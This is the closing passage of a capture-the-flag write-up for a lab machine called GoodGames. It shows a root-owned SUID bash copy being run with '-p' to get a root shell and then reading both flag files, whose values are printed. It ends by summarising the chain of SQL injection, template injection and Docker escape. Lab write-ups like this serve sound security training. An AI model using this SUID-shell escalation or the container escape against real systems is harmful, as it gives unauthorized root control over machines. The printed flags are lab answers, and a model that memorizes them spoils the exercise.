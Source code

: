 Now, back on the host machine:

```bash
augustus@GoodGames:~$ ls -la badbash
ls -la badbash
-rwsrwxrwx 1 root root 1168776 Jan 13 16:48 badbash
augustus@GoodGames:~$ ./badbash -p
./badbash -p
badbash-5.0# whoami
whoami
root
```

And we get root on the host machine! We can now retrieve the flags:

```bash
badbash-5.0# echo "User flag:";cat /home/augustus/user.txt;echo "Root flag:";cat /root/root.txt
<ustus/user.txt;echo "Root flag:";cat /root/root.txt
User flag:
c48d858e747788869b014967d28dd872
Root flag:
bdb613146b47f0a8c563b9fda49567ea
```


# [](#conclusions)Conclusion
This CTF had nice concepts to practice: ranging from SQL injection, to Server Side Template Injection and then 
Docker escape with a privileged container and less privileged host access. 

With the SQL injection, we got the administrator
user on the website. We managed to successfully exploit the Server Side Template Injection (SSTI) vulnerability and gain access to the system's container. Due to implementation faults, we were able to escalate our privileges by escaping the Docker environment and using both the container and a less privileged user on the host to gain root access. This allowed us to have full control over the system.

I hope you liked this write-up and learned something new. As always, don’t forget to do your **research!**

<a href="/">Go back</a>


